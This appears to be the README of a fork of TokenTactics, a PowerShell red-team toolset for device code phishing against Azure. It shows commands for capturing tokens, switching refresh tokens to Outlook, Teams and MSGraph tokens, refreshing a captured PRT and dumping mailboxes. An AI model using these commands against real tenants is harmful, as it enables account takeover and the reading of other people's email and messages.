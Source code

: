 # Fork edit
Added the -secret parameter to Invoke-RefreshToMSGraphToken to include "client_secret" in the HTTP body.
Needed in situations such as Illicit Consent Grant attack with an app that has only a Web redirect URI. Those are considered confidential and hence the app secret is required for authentication.

# TokenTactics
Azure JSON Web Token ("JWT") Manipulation Toolset

Azure access tokens allow you to authenticate to certain endpoints as a user who signs in with a device code. Even if they used multi-factor authentication. Once you have a user's access token, it may be possible to access certain apps such as Outlook, SharePoint, OneDrive, MSTeams and more. 

For instance, if you have a Graph or MSGraph token, you can then connect to Azure and dump users, groups, etc. You could then, depending on conditional access policies, switch to an Azure Core Management token and run [AzureHound](https://github.com/BloodHoundAD/AzureHound). Then, switch to an Outlook token and read/send emails or MS Teams and read/send messages!

For more on Azure token types [Microsoft identity platform access tokens](https://docs.microsoft.com/en-us/azure/active-directory/develop/access-tokens)

There are some example requests to endpoints in the resources folder. There is also an example phishing template for device code phishing.

You may also use these tokens with [AAD Internals](https://o365blog.com/aadinternals/) as well. We strongly recommended to check this amazing tool out.

## Installation and Usage

```Import-Module .\TokenTactics.psd1```

```Get-Help Get-AzureToken```

```Invoke-RefreshToSubstrateToken```

### Generate Device Code

```Get-AzureToken -Client MSGraph```
Once the user has logged in, you'll be presented with the JWT and it will be saved in the $response variable. To access the access token use ```$response.access_token``` from your PowerShell window to display the token. You may also display the refresh token with ```$response.refresh_token```. Hint: You'll want the refresh token to keep refreshing to new access tokens! By default, Get-AzureToken results are logged to TokenLog.log.

#### DOD/Mil Device Code
```Get-AzureToken -Client DODMSGraph```

### Refresh or Switch Tokens

```Invoke-RefreshToOutlookToken -domain myclient.org -refreshToken 0.A```

```$OutlookToken.access_token```

### Connect
```Connect-AzureAD -AadAccessToken $response.access_token -AccountId user@myclient.org```

### Refresh a PRT

Once a PRT has been captured, auth with roadrecon to obtain your access_token and refresh_token. When refreshing with TokenTactics, use ClientID 1b730954-1685-4b74-9bfd-dac224a7b894.

```Invoke-RefreshToMSGraphToken -domain myclient.org -ClientId 1b730954-1685-4b74-9bfd-dac224a7b894 -refreshToken 0.A```

### Clear tokens
```Invoke-ClearToken -Token All```

### Commands
```powershell
Get-Command -Module TokenTactics

CommandType     Name                                               Version    Source
-----------     ----                                               -------    ------
Function        Invoke-ClearToken                                        0.0.2      TokenTactics
Function        Invoke-DumpOWAMailboxViaMSGraphApi                       0.0.2      TokenTactics
Function        Invoke-ForgeUserAgent                                    0.0.2      TokenTactics
Function        Get-AzureToken                                           0.0.2      TokenTactics
Function        Get-TenantID                                             0.0.2      TokenTactics
Function        Invoke-OpenOWAMailboxInBrowser                           0.0.2      TokenTactics
Function        Invoke-ParseJWTtoken                                     0.0.2      TokenTactics
Function        Invoke-RefreshToAzureCoreManagementToken                 0.0.2      TokenTactics
Function        Invoke-RefreshToAzureManagementToken                     0.0.2      TokenTactics
Function        Invoke-RefreshToDODMSGraphToken                          0.0.2      TokenTactics
Function        Invoke-RefreshToGraphToken                               0.0.2      TokenTactics
Function        Invoke-RefreshToMAMToken                                 0.0.2      TokenTactics
Function        Invoke-RefreshToMSGraphToken                             0.0.2      TokenTactics
Function        Invoke-RefreshToMSManageToken                            0.0.2      TokenTactics
Function        Invoke-RefreshToMSTeamsToken                             0.0.2      TokenTactics
Function        Invoke-RefreshToO365SuiteUXToken                         0.0.2      TokenTactics
Function        Invoke-RefreshToOfficeAppsToken                          0.0.2      TokenTactics
Function        Invoke-RefreshToOfficeManagementToken                    0.0.2      TokenTactics
Function        Invoke-RefreshToOutlookToken                             0.0.2      TokenTactics
Function        Invoke-RefreshToSubstrateToken                           0.0.2      TokenTactics
Function        Invoke-RefreshToYammerToken                              0.0.2      TokenTactics
```

## Authors and contributors
- [@0xBoku](https://github.com/boku7) co-author and researcher.

TokenTactic's methods are highly influenced by the great research of Dr Nestori Syynimaa at https://o365blog.com/.

